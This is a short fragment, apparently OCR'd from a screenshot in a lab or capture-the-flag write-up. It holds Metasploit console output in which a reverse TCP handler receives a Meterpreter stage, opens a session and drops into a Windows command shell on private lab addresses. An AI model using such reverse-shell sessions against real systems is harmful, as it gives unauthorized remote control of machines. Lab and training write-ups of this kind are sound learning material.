 ```bash
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```